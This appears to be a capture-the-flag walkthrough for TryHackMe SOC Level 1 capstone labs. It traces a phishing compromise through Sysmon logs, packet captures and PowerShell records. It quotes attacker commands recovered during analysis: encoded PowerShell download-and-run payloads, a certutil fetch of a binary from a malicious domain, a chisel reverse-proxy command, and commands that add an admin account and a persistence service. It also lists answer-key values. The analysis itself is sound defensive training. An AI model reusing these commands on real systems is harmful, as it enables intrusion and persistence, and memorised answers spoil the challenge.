# THM_SOC-Level-1-Capstone-Challenges

## Table of Contents
1. [Tempest](#tempest)
2. [Boogeyman 1](#boogeyman-1)
3. [Boogeyman 2](#boogeyman-2)

## Tempest
### Preparation - Tools and Artifacts
1. What is the SHA256 hash of the capture.pcapng file?

    We can use this command to calculate the SHA256 hash of the capture.pcapng file:

    ```powershell
    Get-FileHash -Algorithm SHA256 .\capture.pcapng
    ```
    The answer is `CB3A1E6ACFB246F256FBFEFDB6F494941AA30A5A7C3F5258C3E63CFA27A23DC6`.

2. What is the SHA256 hash of the sysmon.evtx file?

    We can use this command to calculate the SHA256 hash of the sysmon.evtx file:

    ```powershell
    Get-FileHash -Algorithm SHA256 .\sysmon.evtx
    ```
    The answer is `665DC3519C2C235188201B5A8594FEA205C3BCBC75193363B87D2837ACA3C91F`.

3. What is the SHA256 hash of the windows.evtx file?

    We can use this command to calculate the SHA256 hash of the windows.evtx file:

    ```powershell
    Get-FileHash -Algorithm SHA256 .\windows.evtx
    ```
    The answer is `D0279D5292BC5B25595115032820C978838678F4333B725998CFE9253E186D60`.

### Initial Access - Malicious Document
1. The user of this machine was compromised by a malicious document. What is the file name of the document?

    We can use `sysmon view` tools to analyze the sysmon log. But before use it, we need to convert the sysmon.evtx file to a XML file. Once we have the XML file, we can use `sysmon view` to analyze it. The information we have is like this:

    - The malicious document has a .doc extension.
    - The user downloaded the malicious document via chrome.exe.
    - The malicious document then executed a chain of commands to attain code execution.

    So, we can search chrome.exe and click the guid available on it. One of the events shows that the user downloaded a file named `free_magicules.doc`. So, the answer is `free_magicules.doc`.

2. What is the name of the compromised user and machine? (Format: username-machine name)

    We can use `chrome.exe` again but this time we need to examine the process creation of the parent image `explroer.exe`. We can doble click the event and check the details. The user name is `benimaru` and the machine name is `TEMPEST`. So, the answer is `benimaru-TEMPEST`.

    

3. What is the PID of the Microsoft Word process that opened the malicious document?

    We can search for `winword.exe` and check the availabe sessions (GUIDs) of it. One of it shows like this:

    

    We can see that the PID of the Microsoft Word process that opened the malicious document is `496`. So, the answer is `496`.

4. Based on Sysmon logs, what is the IPv4 address resolved by the malicious domain used in the previous question?

    We can still use the same session (GUID) of `winword.exe` and check the events. We can see that there network connection events that show the IPv4 address resolved by the malicious domain.

    

    The answer is `167.71.199.191`.

5. What is the base64 encoded string in the malicious payload executed by the document?

    We can use `timeline explorer` to analyze the timeline of the events. In the previous, we know that suspicious PID is `496`. So, we can filter the events by this PID in the payload data 5 column and we will find the relevant parent process id `496`.
    
    

    We can see that there is a command line event that shows the base64 encoded string in the malicious payload executed by the document. The answer is `JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==`.

6. What is the CVE number of the exploit used by the attacker to achieve a remote code execution? (Format: XXXX-XXXXX)

    Based on the previous image, we can see that it use `msdt.exe` to execute the malicious payload. After doing some research in the google, we can find that the CVE number of the exploit used by the attacker to achieve a remote code execution is `CVE-2022-30190`. So, the answer is `2022-30190`.

### Initial Access - Stage 2 Execution
1. The malicious execution of the payload wrote a file on the system. What is the full target path of the payload?

    In the previous question, we already know the base64 encoded string in the malicious payload executed by the document. We can decode it and we will find the command that shows the full target path of the payload. The answer is `C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`.

2. The implanted payload executes once the user logs into the machine. What is the executed command upon a successful login of the compromised user? (Format: Remove the double quotes from the log.)

    The question has state `payload executes once the user logs into the machine`. So we can search the time of the user login by using event id `4624` in the windows.xml (we feed windows.xml into Timeline Explorer) file. We can filter to `event id 1` to search process creation events and `User Name` to `benimaru` to find the relevant events. We can find the relevant event that shows the executed command upon a successful login of the compromised user. 
    
    

    The answer is `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe`.

3. Based on Sysmon logs, what is the SHA256 hash of the malicious binary downloaded for stage 2 execution?

    We can back to `sysmon view` tools and search `first.exe` in the process creation events. We can find the relevant event that shows the SHA256 hash of the malicious binary downloaded for stage 2 execution.
    
    

    The answer is `CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8`.

4. The stage 2 payload downloaded establishes a connection to a c2 server. What is the domain and port used by the attacker? (Format: domain:port)

    We can use the previous event of `first.exe` to find the relevant network connection events. We can find the relevant event that shows the domain and port used by the attacker.

    

    The answer is `resolvecyber.xyz:80`.

### Initial Access - Malicious Domain Traffic
1. What is the URL of the malicious payload embedded in the document?

    We can use `brim` to analyze the capture.pcapng file. We can filter the suspicious domain `phishteam.xyz` and check the relevant HTTP request. 

    

    We can see that there is a HTTP request that shows the malicious URL with the `microsoft word` user agent. The answer is `http://phishteam.xyz/02dcf07/index.html`.

2. What is the encoding used by the attacker on the c2 connection?

    We can still use `brim` to analyze the capture.pcapng file. We can filter the c2 domain `resolvecyber.xyz` and check the relevant HTTP request.

    

    We can see that there is a HTTP request that shows the encoding used by the attacker on the c2 connection. We can copy it and use cyberchef to identify the encoding. The answer is `base64`.

3. The malicious c2 binary sends a payload using a parameter that contains the executed command results. What is the parameter used by the binary?

    We can still use `brim` to analyze the capture.pcapng file. We can filter the c2 domain `resolvecyber.xyz` and check the relevant HTTP request.

    

    We can see that all the encoded payloads are sent using a parameter named `q`. The answer is `q`.

4. The malicious c2 binary connects to a specific URL to get the command to be executed. What is the URL used by the binary?

    We can use the previous image to find the relevant HTTP request that shows the URL used by the binary to get the command to be executed. The answer is `/9ab62b5`.

5. What is the HTTP method used by the binary?

    We can use the previous image to find the relevant HTTP request that shows the HTTP method used by the binary. The answer is `GET`.

6. Based on the user agent, what programming language was used by the attacker to compile the binary? (Format: Answer in lowercase)

    We can check the user agent section with the same filter. The answer is `nim`.

### Dicovery - Initial Reconnaissance
1. The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned file?

    To solve this, we can use this brim query to find the relevant HTTP request that shows the attacker command:

    ```brim
    _path=="http" "resolvecyber.xyz"  | cut ts, host, id.resp_p, uri | sort ts
    ```
    One of the has this uri `/9ab62b5?q=Y2F0IEM6XFVzZXJzXEJlbmltYXJ1XERlc2t0b3BcYXV0b21hdGlvbi5wczEgLSAkdXNlciA9ICJURU1QRVNUXGJlbmltYXJ1Ig0KJHBhc3MgPSAiaW5mZXJub3RlbXBlc3QiDQoNCiRzZWN1cmVQYXNzd29yZCA9IENvbnZlcnRUby1TZWN1cmVTdHJpbmcgJHBhc3MgLUFzUGxhaW5UZXh0IC1Gb3JjZTsNCiRjcmVkZW50aWFsID0gTmV3LU9iamVjdCBTeXN0ZW0uTWFuYWdlbWVudC5BdXRvbWF0aW9uLlBTQ3JlZGVudGlhbCAkdXNlciwgJHNlY3VyZVBhc3N3b3JkDQoNCiMjIFRPRE86IEF1dG9tYXRlIGVhc3kgdGFza3MgdG8gaGFjayB3b3JraW5nIGhvdXJzDQo=` which is the base64 encoded string. We can decode it and we will find the password discovered on the aforementioned file. The answer is `infernotempest`.

2. The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine?

    We can use the previous brim query. One of the result has encode command of enumerating the list of listening ports inside the machine. We can decode it and we will find the listening port that could provide a remote shell inside the machine. The answer is `5985`.

3. The attacker then established a reverse socks proxy to access the internal services hosted inside the machine. What is the command executed by the attacker to establish the connection? (Format: Remove the double quotes from the log.)

    By using the previous brim query, i found out that the attacker download `ch.exe` binary. By using `timeline explorer`, i search `ch.exe` in the executable info column and find the relevant event. By checking the details of the event, i found out that the command executed by the attacker to establish the connection is 
    
    ```powershell
    C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks
    ```

4. What is the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection?

    I used `Sysmon View` to search `ch.exe` in the process creation events and find the relevant event. By checking the details of the event, i found out that the SHA256 hash of the binary used by the attacker to establish the reverse socks proxy connection is `8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451`.

5. What is the name of the tool used by the attacker based on the SHA256 hash? Provide the answer in lowercase.

    We can copy the SHA256 hash and search it in the virus total. By doing this, we can find that the name of the tool used by the attacker based on the SHA256 hash is `chisel`. 

6. The attacker then used the harvested credentials from the machine. Based on the succeeding process after the execution of the socks proxy, what service did the attacker use to authenticate? (Format: Answer in lowercase)

    If we analyze the timeline of the events, after the attacker established the reverse socks proxy connection, we can find that there is a process creation event that shows the execution of `wsmprovhost.exe`. After doing some research, i found out that `wsmprovhost.exe` is a Windows Remote Management (WinRM) service. So, the answer is `winrm`.

### Privilege Escalation - Exploiting Privileges
1. After discovering the privileges of the current user, the attacker then downloaded another binary to be used for privilege escalation. What is the name and the SHA256 hash of the binary?

    By using `brim`, i found out that the attacker privilege has been escalated to `nt authority\system`. I used this brim query to find the relevant HTTP request that shows the attacker command:

    ```brim
    _path=="http" "resolvecyber.xyz"  | cut ts, host, id.resp_p, uri | sort ts
    ```
    The time of this event is `2022-06-20T17:21:38.85148Z`. By using `timeline explorer`, i search the time of this event in the timeline and analyze the events around this time. I found out that the attacker downloaded a suspicious binary named `spf.exe`. I check the hash by using `sysmon view` tools and find the SHA256 hash of the binary. TI copied the hash and search it in the virus total and find out that the name of the tool is `PrintSpoofer`. It used for privilege escalation. So, the answer is `spf.exe,8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D`.

2. Based on the SHA256 hash of the binary, what is the name of the tool used? (Format: Answer in lowercase)

    In the previous question, i already found out that the name of the tool used is `PrintSpoofer`. So, the answer is `printspoofer`.

3. The tool exploits a specific privilege owned by the user. What is the name of the privilege?

    By doing some research about `PrintSpoofer`, i found out that the tool exploits `SeImpersonatePrivilege` privilege owned by the user. So, the answer is `SeImpersonatePrivilege`.

4. Then, the attacker executed the tool with another binary to establish a c2 connection. What is the name of the binary?

    We can use `timeline explorer` and filter `executable info` column with `spf.exe` to find the relevant events. By checking the details of the event, i found out that the attacker executed another binary named `final.exe`. So, the answer is `final.exe`.

5. The binary connects to a different port from the first c2 connection. What is the port used?

    By using `sysmon view` tools, i search `final.exe` in the process creation events and find the relevant event. By checking the details of the event, i found out that the binary connects to a port `8080`. So, the answer is `8080`.

### Actions on Objective - Fully Owned Machine
1. Upon achieving SYSTEM access, the attacker then created two users. What are the account names? (Format: Answer in alphabetical order - comma delimited)

    I used `brim` to find the relevant HTTP request that shows the attacker command:

    ```brim
    _path=="http" "resolvecyber.xyz" id.resp_p==8080 | cut ts, host, id.resp_p, uri | sort ts
    ```
    We can decode the base64 encoded string in the uri and we will find the command that shows the account names created by the attacker. The answer is `shion,shuna`.

2. Prior to the successful creation of the accounts, the attacker executed commands that failed in the creation attempt. What is the missing option that made the attempt fail?

    We can use the previous brim query to find the relevant HTTP request that shows the failed account creation attempt. We can decode the base64 encoded string in the uri and we will find the command that shows the missing option that made the attempt fail. The answer is `/add`.

3. Based on windows event logs, the accounts were successfully created. What is the event ID that indicates the account creation activity?

    The event ID that indicates the account creation activity is `4720`. So, the answer is `4720`.

4. The attacker added one of the accounts in the local administrator's group. What is the command used by the attacker?

    We can use either `brim` or `timeline explorer` to find the relevant event. If we use `brim`, we need to decode one by one with the previous brim query. The answer is `net localgroup administrators /add shion`.

5. Based on windows event logs, the account was successfully added to a sensitive group. What is the event ID that indicates the addition to a sensitive local group?

    The event ID that indicates the addition to a sensitive local group is `4732`. So, the answer is `4732`.

6. After the account creation, the attacker executed a technique to establish persistent administrative access. What is the command executed by the attacker to achieve this? (Format: Remove the double quotes from the log.)

    I found suspicious command in `timeline explorer`. 
    
    

    This command remotely creates a persistent, automatic background service named "TempestUpdate" on the network computer "TEMPEST". When the system boots, it will automatically execute the file located at C:\ProgramData\final.exe with administrative privileges. The answer is `C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate binpath= C:\ProgramData\final.exe start= auto`.


## Boogeyman 1
### [Email Analysis] Look at that headers!
1. What is the email address used to send the phishing email?

    We can use `thunderbird` to analyze the email file. By checking the email headers, we can find the email address used to send the phishing email. The answer is `agriffin@bpakcaging.xyz`.

2. What is the email address of the victim?

    The answer is `julianne.westcott@hotmail.com`.

3. What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?

    We can check the DKIM-Signature and List-Unsubscribe headers by inspecting the `message source` in the email file. The answer is `elasticemail`.

4. What is the name of the file inside the encrypted attachment?

    We can download the attachment and unzip it with password `Invoice2023!`. We will find a file named `Invoice_20230103.lnk`. So, the answer is `Invoice_20230103.lnk`.

5. What is the password of the encrypted attachment?

    The answer is `Invoice2023!`.

6. Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

    We can use `lnkparse` tool to analyze the `Invoice_20230103.lnk` file. 

    ```bash
    lnkparse  Invoice_20230103.lnk
    ```
    Then, we can analyze the result. The answer is `aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==`.

### [Endpoint Security] Are you sure that's an invoice?
1. What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)

    We can use jq tool to analyze the powershell.json file and analyze the timestamp and script block text. By doing this, we can find the domains used by the attacker for file hosting and C2. 
    
    ```bash
    cat powershell.json | jq -s '.[] | {Timestamp, ScriptBlockText}'
    ```
    The answer is `cdn.bpakcaging.xyz,files.bpakcaging.xyz`.

2. What is the name of the enumeration tool downloaded by the attacker?

    We can filter the output to find the command without `{` and `}`.

    ```bash
    cat powershell.json | jq -s '.[] | select(.ScriptBlockText != null and (.ScriptBlockText | startswith("{") | not)) | .ScriptBlockText'
    ```
    

    We can see that the attacker downloaded a tool named `Seatbelt`. In the next line, the attacker executed the tool with similar initial `sb` which also indicates that the tool is `Seatbelt` with the following common enumeration argument. And then, the attacke use the exact argument but using `seabelt.exe` instead of `sb` which indicates that the attacker execute the downloaded `seatbelt` tool. So, the answer is `seatbelt`.

3. What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.

    We can trace the command with `cd` command that executed before `sq3.exe` in the powershell.json file. We can use this filter to sort by timestamp and find the relevant command:

    ```bash
    cat powershell.json | jq -s 'map(select(.ScriptBlockText != null and (.ScriptBlockText | startswith("{") | not))) | sort_by(.Timestamp) | .[] | .ScriptBlockText'
    ```
    

    The answer is `C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite`.

4. What is the software that uses the file in Q3?

    We can get the answer from the previous question. The file `plum.sqlite` is used by `Microsoft Sticky Notes`. So, the answer is `Microsoft Sticky Notes`.

5. What is the name of the exfiltrated file?

    We can see the indication of exfiltration in these lines:

    

    The answer is `protected_data.kdbx`.

6. What type of file uses the .kdbx file extension?

    We can search the file extension `.kdbx` in the google and we will find that it is a `KeePass Database File`. So, the answer is `KeePass`.

7. What is the encoding used during the exfiltration attempt of the sensitive file?

    We can check the command used for exfiltration in the previous image. The answer is `hex`.

8. What is the tool used for exfiltration?

    The attacker is stealing a password database file (protected_data.kdbx) and sneaking the data out of the network by hiding it inside ordinary DNS queries (nslookup) sent to an IP address they control. So, the answer is `nslookup`.

### [Network Traffic Analysis] They got us. Call the bank immediately!
1. What software is used by the attacker to host its presumed file/payload server?

    In the previous, i have found that the attacker used `files.bpakcaging.xyz` domain for file hosting. It used to host the `sq3.exe` binary. We can check the HTTP response header of the request to `files.bpakcaging.xyz` domain by using `wireshark` and use this filter:

    ```txt
    http.host contains "files.bpakcaging.xyz"
    ```
    We can find the relevant HTTP response and click `follow` > `HTTP Stream`. We can check the HTTP response header and find the software used by the attacker to host its presumed file/payload server. The answer is `python`.

2. What HTTP method is used by the C2 for the output of the commands executed by the attacker?

    We can use this filter to find the relevant HTTP request to `cdn.bpakcaging.xyz` domain:

    ```txt
    http.host contains "cdn.bpakcaging.xyz"
    ```
    We can find check the `POST` and analyze it by follow http stream. We will found bunch of encoded data. We can decode it by using cyberchef and find the valid command output. So, the answer is `POST`.

3. What is the protocol used during the exfiltration activity?

    The answer is `DNS`.

4. What is the password of the exfiltrated file?

    We can filter to find HTTP that contains `sq3.exe`.

    ```txt
    http contains "sq3.exe"
    ```
    Then click follow > TCP Stream. Change the stream from `749` to `750`. We will many decimal numbers. We can copy all of it and use cyberchef to decode it. The answer is `%p9^3!lL^Mz47E2GaT^y`.

5. What is the credit card number stored inside the exfiltrated file?

    To solve this, we needed to preserve the exact time order (no sort) and strictly filter out the AWS internal junk. We used a regular expression (matches) to enforce that the string must start with hex characters and end exactly with .bpakcaging.xyz.

    ```bash
    tshark -r capture.pcapng -Y "dns.qry.name matches \"^[0-9A-Fa-f]+\\\\.bpakcaging\\\\.xyz$\"" -T fields -e dns.qry.name > chronological_chunks.txt
    ```
    With the chronological text isolated, we ran a final pipeline to remove consecutive duplicates, strip the domain names, and turn the hex characters back into a raw binary file.

    ```bash
    cat chronological_chunks.txt | uniq | cut -d'.' -f1 | tr -d '\n' | xxd -r -p > stolen_data.kdbx
    ```
    We can open the `stolen_data.kdbx` file with KeePass and use the password from the previous question to open it. We will find a credit card number in the entry. The answer is `4024007128269551`.


## Boogeyman 2
1. What email was used to send the phishing email?

    The answer is `westaylor23@outlook.com`.

2. What is the email of the victim employee?

    The answer is `maxine.beck@quicklogisticsorg.onmicrosoft.com`.

3. What is the name of the attached malicious document?

    The answer is `Resume_WesleyTaylor.doc`.

4. What is the MD5 hash of the malicious attachment?

    We can use this command to calculate the MD5 hash of the malicious attachment:

    ```bash
    md5sum Resume_WesleyTaylor.doc
    ```
    The answer is `52c4384a0b9e248b95804352ebec6c5b`.

